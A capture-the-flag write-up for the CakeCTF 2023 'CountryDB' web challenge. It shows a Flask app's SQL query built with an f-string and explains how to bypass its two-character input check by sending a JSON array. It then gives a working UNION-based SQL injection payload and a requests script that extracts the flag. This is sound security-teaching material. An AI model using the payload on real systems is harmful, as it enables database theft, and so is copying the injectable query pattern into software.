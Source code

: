 # CountryDB 

The challenge consists of a basic web application which allows to insert country code and returns the associated country name:

![overview](../country_db.png)

Let's look at the main application source code files:

`init_db.py`

```python
import sqlite3
import os

FLAG = os.getenv("FLAG", "FakeCTF{*** REDACTED ***}")

conn = sqlite3.connect("database.db")
conn.execute("""CREATE TABLE country (
  code TEXT NOT NULL,
  name TEXT NOT NULL
);""")
conn.execute("""CREATE TABLE flag (
  flag TEXT NOT NULL
);""")
conn.execute(f"INSERT INTO flag VALUES (?)", (FLAG,))

# Country list from https://gist.github.com/vxnick/380904
countries = [
    ('AF', 'Afghanistan'),
    ...
```

As we can see there is a table in the database containing the flag, almost sure that we need to obtain it through a sql injection

`app.py`

```python
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    try:
        with sqlite3.connect('database.db') as conn:
            cur = conn.cursor()
            sql = f"SELECT name FROM country WHERE code=UPPER('{code}')"
            print(sql)
            cur.execute(sql)
            found = cur.fetchone()
        return None if found is None else found[0]
    except:
        flask.abort(400, f"INVALID INJECTION {sql} ")

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    print(f"req: {req}")
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    print(code)
    print(len(code))
    
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")
    
    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=False)
```

The application, in order to display the country associated to each code, requests the code itself through the `/api/search/` endpoint and performs some checks on the provided input:

```python 
if len(code) != 2 or "'" in code:
```

length of provided code should == 2 and no apostrophe should be inside it. So basically you cannot provide strings different from a country code (e.g. IT).

However this check can be easily bypassed because there is no check on what `code` type actually is:

```python
>>> code = ["I can write anything i want", "and code length will be always two"] 
>>> len(code)
2
```

In python the length of an array is determined by the number of elements in the array itself:
we can send an array of two elements in order to construct the sql injection payload.

At this point, since we know how to bypass the check and our input will reach the `db_search(code)` function, we just need to understand how to set a valid payload.

```python
sql = f"SELECT name FROM country WHERE code=UPPER('{code}')"
```

The problem of sending an array is that we will need to escape the `[ ]` inside the `UPPER()` function;
after some attempts:

```json
{
    "code": ["", ") UNION SELECT * FROM flag --"]
}
```

which results in the query string:

```sql
SELECT name FROM country WHERE code=UPPER('['', ') UNION SELECT * FROM flag --']')
```

Note: the payload must be sent through an explicit post request, because the application input form is now allowing the user to insert a string whose length is greather than two:

```python
import requests

url = "http://countrydb.2023.cakectf.com:8020/api/search"

sql_injection = {
    "code": ["", ") UNION SELECT * FROM flag --"]
}

req = requests.post(url, json=sql_injection)

print(req.json())
```


    CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}
